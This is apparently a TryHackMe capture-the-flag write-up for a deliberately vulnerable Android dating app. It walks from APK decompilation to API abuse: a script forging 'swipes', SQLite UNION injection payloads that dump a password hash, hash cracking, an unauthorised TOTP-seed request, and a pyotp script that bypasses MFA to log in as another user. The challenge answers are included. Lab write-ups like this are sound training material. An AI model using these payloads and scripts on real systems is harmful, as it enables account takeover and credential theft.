---
tags:
  - tryhackme
  - ctf
  - hard
  - mobile
  - api-hacking
  - scripting
  - python
  - sqli
---

# Cloud Nine

**Platform:** TryHackMe  
**Type:** CTF  
**Difficulty:** Hard  
**Link:** [Love at First Breach 2026 - Advanced Track](https://tryhackme.com/room/lafbctf2026-advanced) (Task 7)

## Description
"Swiper is the app that really said "who needs a match when you can just bombard someone's profile with poetry?" Forget flowers and dinner, nothing says romance like a stranger reading "I must be a snowflake, because I've fallen for you" from someone they've never met. It's not stalking, it's literature. Find a person you like based on a 5-word description and share your favourite love quotes, no dating or chatting required."

## Static Analysis
As with two of the previous tasks in this challenge set, this isn't your usual CTF with a typical enumeration > foothold > privilege escalation workflow. All we were provided with was an APK file (standard file format for Andoid app installers), so from the start this is closer to static binary analysis than an attack chain. Mobile static binary analysis is not something that I have done a lot (any) of before, so I started this challenge by Googling common tools for this purpose. There was one that came up repeatedly and seemed to suit my needs: [JADX](https://github.com/skylot/jadx), an APK decompiler with a GUI interface. After I installed it as per the instructions, I opened the APK inside it and started bumbling my way around this challenge.

Looking at the first question in the set, we are instructed to "get a premium membership". Not being confident navigating around this new tool, I figured it might make the most sense to start looking for resources that were related to that question, so I set about searching for references to the word "register", which I assumed would be involved somewhere with users looking to obtain a membership (Navigation > Text search). Scanning through the results, there was a RegisterRequest class that seemed like it might be relevant, especially as it appeared to have arguments for `username`, `email`, and `password`:  
  

Looking through the code, the `RegisterRequest` class appears to be a data container, gathering a username, email, and password, and then constructing those pieces of data into an object.  The class didn't actually perform any functions other than the data handling so I figured the next thing to find was where that class was being used elsewhere in the application. It is possible to navigate directly to the programme location of search results by double clicking them in the results pane; doing this opened the `RegisterRequest` class. It is further possible to find the uses of the class across the application by highlighting it and choosing "Find Usage" from the right-click menu. Doing that showed the class being used as an object in two other locations:  

* `ApiService`
* `RegisterScreenKt$RegisterScreen$1$4$1$response$1`

The first of those two files looked similar to a `routes.py` file in a Flask application, defining options to take to and from endpoints. The second of the two appeared to contain some actual functionality. Reading through the code, I came to the conclusion that this file performed the following:  

* Reads username, email, and password values from the user interface.
* Creates an instance of the `RegisterRequest` and passes those values to the newly created instace.  
* Sends the data as a POST request to the `/register` endpoint.
* Receives a response from the API via the `RetrofitClient` class.

Tracing this function back one last step (for now) to that `RetrofitClient` class shows this to be the main template function that  function that constructs network requests to the application (including the authentication headers). Perhaps most importantly, it reveals the base URL to be used with the endpoints defined in `ApiService`:  
  

Alright, now it feels like we might be getting somewhere. Going back to the `ApiService` file, we can see which endpoints accept which HTTP methods. With that in mind, I found an endpoint that accepts `GET` requests and sent a `curl` request to it to see if it at least responded.
  

Alright, great! I have at least proved that the endpoint exists and accepts requests, even if I have, at this point, failed to construct that request properly. With that in mind, and thinking back to the original challenge wording, it may now be possible to construct a `curl` request to the `register` endpoint so that I can register a user.

## Dynamic Analysis
Thinking back to the `RegisterRequest` class, we can infer that the data object constructed for a member registration resembles the following:  
```
{
  "username": "...",
  "email": "...",
  "password": "..."
}
```

I saved that JSON data into a `register.json` file, filling in the blanks with arbitrary data (*remember, this is a shared instance with other THM users, so choose something that won't clash with others!*), and sent the registration request on to the app with the following `curl` request:  
```
curl -X POST \
https://10-81-118-246.reverse-proxy.cell-prod-eu-west-1b.vm.tryhackme.com/register \
-H "Content-Type: application/json" \
-d @register.json
```

I was pretty happy to get a success message back from the app:  
  

OK, so I now have an account registered on the app. Unfortunately I will also need the JWT that validates my account, generated by the server, if I want to interact with the app as that user. Whilst looking through the `ApiService` file earlier in the analysis phase, I had noticed a `login` endpoint, which seemed a sensible place to go from here. Following that endpoint back from `ApiService` (with the Find Usage function), I found a `LoginRequest` class being used in the same way `RegisterRequest` is being used - as a data storage object. In this instance, the data being stored took the following format:  
```
{
  "username": "...",
  "password": "..."
}
```

With this, I constructed a new JSON data object and passed it to a new `curl` request to the `login` endpoint:  
```
curl -X POST \
https://10-81-118-246.reverse-proxy.cell-prod-eu-west-1b.vm.tryhackme.com/login \
-H "Content-Type: application/json" \
-d @login.json
```

This time I was rewarded with a JWT value:  
  

Now that I have a way to interact with the app, I figured I should set about finding out how to get a premium membership like the question says. I went back to the `ApiService` file to see if there were any other interesting endpoints that I could look at. Of particular interest was the `/profile` endpoint: this accepted both `GET` and `PUT` requests, so in theory I might be able to update the details held against my profile, which might include the `is_premium` attribute. Unfortunately when I looked at the code for the `ProfileUpdateRequest` class, the only attributes included were `name`, `age`, and `bio`. In fact, a search of the entire codebase for the string "is_premium" failed to turn up anything that looked like it would be useful, suggesting that this attribute was actually set by the back end of the web application. Given that I had only seen command line responses from the app up to now, I decided to try and interact with the app as it had actually been intended - on a phone.

Not an actual phone of course! That would seem a rather unfair condition to being able to complete this challenge, considering lots of players won't have an Android phone. It is possible to run an emulator using [Android Studio](https://developer.android.com/studio), which is free. Once downloaded, installed, and opened, I opened the Device Manager (from the More Actions menu in the startup wizard), started the pre-installed Android device, and then simply dragged the APK file from my host machine to the emulated phone screen. After the application installed, I was able to open it using the new icon on the screen, get logged in, and start mooching around the interface using the hamburger menu in the top right corner. The membership page gave me a bit of jackpot information:  
  

Awesome, I know how to get a free premium membership! Just one problem with that - how do I get other users to send me "swipes"? Well, there is another endpoint in the app called `swiper` that accepts `POST` requests, so this seems like a good place to start. Looking at the `SwipeRequest` class, it appears that `POST` requests to this endpoint take the following form:  
```
{
  "swiper_id": "...",
  "swiped_id": "...",
  "liked": True/False
}
```

Alright, so the `swiped_id` will be my ID that I can get by sending a request to the `profile` endpoint. The `liked` attribute will presumably need to be `True` (for an "up" swipe, as opposed to `False` for a "down" swipe), but what about the `swiper_id`? Well, there is another endpoint called `discover` that returns details of other users in the app. If you send a query to the endpoint from the command line, you also get their ID:  
.  

## Exploitation - Premium Membership
So with all those pieces of information, I should be able to put together a script to send 137 requests to the `swiper` endpoint with the correct payload, increasing the `swiper_id` in that payload with each request. The first time I tried this, my like counter (on the `profile`) endpoint went above 137 but I still didn't have a premium membership, so I tweaked the script so that after each request sent to `swipe`, a follow up request was sent to `membership`, checking the output for `"is_premium": true`. If it wasn't present, the swipe counter was increased, if it was, the script terminates:
```
import subprocess
import json

token = ""  # JWT from /login

premium = False
counter = 1

base_url = "https://10-81-118-246.reverse-proxy.cell-prod-eu-west-1b.vm.tryhackme.com"
swipe_suffix = "/swipe"
premium_suffix = "/membership"

swipe_url = base_url + swipe_suffix
membership_url = base_url + premium_suffix

target_user = 104 # User ID from /profile

while premium == False:

    payload = {
        "swiper_id": counter,
        "swiped_id": target_user,
        "liked": True
    }

    # Send swipe request
    swipe_cmd = [
        "curl",
        "-s",
        "-X", "POST",
        swipe_url,
        "-H", f"Authorization: Bearer {token}",
        "-H", "Content-Type: application/json",
        "-d", json.dumps(payload)
    ]

    subprocess.run(swipe_cmd)

    print(f"[+] Sent like #{counter}")

    counter += 1

    # Check membership status
    membership_cmd = [
        "curl",
        "-s",
        "-X", "GET",
        membership_url,
        "-H", f"Authorization: Bearer {token}"
    ]

    result = subprocess.run(
        membership_cmd,
        capture_output=True,
        text=True
    )

    response = result.stdout

    print(f"[DEBUG] Membership response: {response}")

    if '"is_premium":true' in response or '"is_premium": true' in response:
        premium = True
        print("[+] Premium status achieved!")
    else:
        premium = False

print(f"[+] Finished after {counter-1} likes.")
```

After 142 requests, the flag was mine:  
  
??? success "Get a premium membership. What's your premium subscription ID?"
	THM{is_this_what_freemium_means?}

## Exploitation - User Search and Password Crack
Time to move on to the next part of the challenge - finding the password of a user with the email address "shadow777@thm.thm". Looking at the `ApiService` file of the APK, there is an endpoint that appears to have the functionality to search for user profiles (`/profile/{username}`), however that relies on my having the username for searching, not that it's likely the password would be in there anyway. There is another endpoint that looks promising for searching for profiles called `/search`, but what is perhaps more interesting about this endpoint is that it accepts queries by `GET` request to the `q` parameter. Given that this query is likely to probing some sort of underlying database, this suggests the possibility of there being a SQL injection (SQLi) vulnerability to be exploited. As a proof of concept, I used `sqlmap` with the following command to confirm the theory:  
`sqlmap -u "https://10-81-118-246.reverse-proxy.cell-prod-eu-west-1b.vm.tryhackme.com/search?q=test" -H "Authorization: Bearer $TOKEN" \
--batch`

*Two things to note about this challenge at this point:*  

* *I had at this point saved my JWT to the `TOKEN` variable to allow for easier incorporation into commands.*
* *The `search` endpoint requires premium membership to return results. The hosting machine appears to have a script that runs on a regular basis removing user accounts, so you may need to reregister/login for certain parts of this challenge going forward.*

The `sqlmap` ultimately failed to enumerate anything, it did confirm that the parameter is vulnerable to SQLi:  
  

Whilst I was a bit disappointed that `sqlmap` wasn't as successful as I had wanted (because I hate SQL), it did at least confirm the vulnerability. It also confirmed the database type as SQLite - notable because it has some different syntax conventions to other SQL types. The two types of injection identified by `sqlmap` can also be fragile and very time-consuming, even when they do work, so I decided to try to further the exploitation manually with `curl`. Using the output from `sqlmap`, I knew that the opening part of my payload was going to be `')`, and given that I was planning on proceeding with `curl`, trying for a blind attack was useless, so I figured I'd try a `UNION` attack, just to rule it out. Having seen the contents of my own profile page, I knew that the results to the `search` endpoint potentially had up to 8 columns to match the 8 fields returned on the page, which could potentially expand my payload to `') UNION SELECT 1,2,3,4,5,6,7,8`. Also, comments in SQLite can be signified by `/*` rather than`--`. As it turned out, I didn't need to go all the way up to 8 with the columns - 6 ended up being the magic number with the following `curl` request (using the `--data-encode` switch allows you to type the payload as plaintext and `curl` will handle the URL encoding for you):  
`curl -s -H "Authorization: Bearer $TOKEN" --data-urlencode "q=') UNION SELECT 1,2,3,4,5,6 /*"   "$BASE_URL/search"`  

*I had at this point saved the base URL to the `BASE_URL` variable to allow for easier incorporation into commands.*  

This command returned a whole load of information about all the users in the app (rather than an exception, which was what I had gotten with the previous iterations of column enumerations), so going foward I included `AND 1=2` to exclude anything that I wasn't explicitly looking for. Time to enumerate some tables! SQLite holds its schema data in the `sqlite_master` table, of particular interest to me at this point is the `sql` column, that holds table definitions. With that, my payload became:  
`') AND 1=2 UNION SELECT 1,sql,3,4,5,6 FROM sqlite_master /*`  

*Note: it became apparent when the whole user database was returned that the earlier part of the challenge - sending "swipes" to my user - also relied on a further app vulnerability that the `swiper_id` value wasn't actually validated against the user database. Not important to the progress of the challenge at this point, just thought it was worth noting.*

I had four table names returned with this query, but for the current task, there is one in particular that piqued my interest:  
  

Bonus for me, this query also returned the column names of the table, which includes `email` and `password_hash`. From there returning the value I was looking for was trivial with the following payload:  
`') AND 1=2 UNION SELECT id, username, email, 0, password_hash, 0 FROM users WHERE email='shadow777@thm.thm' /*`  
  

Alright, so we have a hash - logically the next thing is to crack it. A quick google of the prefix of the hash (`scrypt:32768:8:1$`) suggests this hash is commonly produced by Werkzeug, which just so happens to be the framework in place on the target machine. I turned to Google again to investigate cracking options and found the [Werkzeug-Cracker](https://github.com/AnataarXVI/Werkzeug-Cracker) that looked promising. After downloading the repo, installing the requirements, and saving the discovered hash to a file, I ran the tool, which (eventually) gave me a hit:  
`python3 werkzeug_cracker.py -p ../hash -w /usr/share/wordlists/rockyou.txt`  
  
??? success "Figure out who is the user whose email is shadow777@thm.thm. What is their password?"
	loveangel

## Exploitation - Unauthorised User access
So the first thing I did was create a new JSON payload file to contain the details of the user I've discovered:  
```
{
  "username": "diana.flores721",
  "password": "PASSWORD"
}
```

Attempting to use this with the `login` endpoint resulted in the following output:  
  

Great, looks like I either need to disable MFA or forge an MFA response, and considering I can't log in without the MFA (and that this is a shared box), I doubted the former was the intended path. I went back to the APK file to see if I could find any clues as to how to conquer this part of the challenge, and it wasn't long before I found something very promising: a boolean variable in the `ProfileResponse` class called `totp_enabled`. Off the back of that finding I ran a search for "TOTP" across the rest of the file, and found a whole `TotpGenerator` class. This is very good news for me if the method of MFA distribution is TOTP! [This](https://www.onelogin.com/learn/otp-totp-hotp) article describes the process very well, but essentially there are two things needed to forge an MFA response in this scenario: a seed and a time-based moving factor. It appears that I have already found a way to get the latter of the two - it was returned on the command line when I tried to log in earlier. So that just leaves the seed, which is a static value, so if I can get hold of that, I don't need to worry about it changing after time. Again, I may be in luck here - when perusing through the APK code earlier on, I had noticed and endpoint called `GetSeed`. Looking through the assocaited `GetSeedRequest` class, it appears to accept `POST` requests, with the `user_id` attribute being the only value. I already have the `user_id` for the targetted user: it was returned in the profile when I queried the `/login` endpoint earlier, which means that if the app doesn't validate the user requesting the seed value, my user might be able to get the seed value for other users of the app. I tested the theory with the following `curl` request:  
`curl -s -X POST -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" --data-binary '{"user_id":48}'   "$BASE_URL/getseed"`  

Looks like there is no validation taking place after all:  
  

Alright, that's progress - I have the seed (static) and I know how to obtain the time-based factor (POST request o `login` endpoint using the targetted user credentials). Now what to do with them? This question actually has two sides:  

* How can I forge an MFA response?
* What do I do with it when I do forge one?

The second of those questions is easily answered: there is a `VerifyOtpRequest` endpoint that accepts `POST` requests, and expects a JSON payload as follows:  
```
verify_payload = {
    "temp_token": "...",
    "otp_code": "...",
    "device_fingerprint": "..."
}
```

The last of those attributes was optional/nullable, so when it came to it, that was set to `None`. As for forging the response, I originally tried using `oath` to generate the OTP required, but I was never quick enough to make it succeed to I generated a helper script with the following pseudocode:  

* Send a `curl` request to the `/login` endpoint with the credentials captured earlier in the challenge.
* Capture the `temp_token` value in the server response.
* Use the `PyOTP` library to generate an MFA response using the temporary token and the seed for the target user.
* Send a `POST` request to the `/verify-otp` endpoint and print the response.

The resulting script was as follows:  
```
import requests
import pyotp

BASE_URL = "https://10-81-118-246.reverse-proxy.cell-prod-eu-west-1b.vm.tryhackme.com"

USERNAME = "diana.flores721"
PASSWORD = "PASSWORD"

SEED = "IIYHLF76AK4UM63STUSWZ6SCVT2HXGZTOKS3EMFVEGBX4V2ZVQ3Q===="

session = requests.Session()

# Step 1 — Login
login_payload = {
    "username": USERNAME,
    "password": PASSWORD
}

login_response = session.post(
    f"{BASE_URL}/login",
    json=login_payload
)

login_response.raise_for_status()

login_data = login_response.json()

temp_token = login_data.get("temp_token")

print(f"[+] Temp token received: {temp_token}")

# Step 2 — Generate OTP
totp = pyotp.TOTP(SEED)
otp_code = totp.now()

print(f"[+] Generated OTP: {otp_code}")

# Step 3 — Verify OTP
verify_payload = {
    "temp_token": temp_token,
    "otp_code": otp_code,
    "device_fingerprint": None
}

verify_response = session.post(
    f"{BASE_URL}/verify-otp",
    json=verify_payload
)

verify_response.raise_for_status()

print("[+] MFA verification response:")
print(verify_response.json())
```

Running the script appeared successful:  
  

I saved the token returned to a new token variable (`$DIANA_TOKEN`) and sent a request to the `/profile` endpoint to prove the theory:  
  

Well that looks very promising! Looking back at the challenge, the question asks for the flag in their private quotes. According to the `ApiService` file, there is a `/quotes` endpoint that accepts `GET` requests, so updating my `curl` request to account for the change in URL got me the final flag for this challenge:  
  
??? success "Login as the user you found on the previous question. What's the flag in their private quotes?"
	THM{ch4ll3ng3_sw1p3d_d0wn}  
	
**Tools Used**  
`JADX` `curl` `Android Studio` `python` `sqlmap`

**Date completed:** 12/03/26  
**Date published:** 12/03/26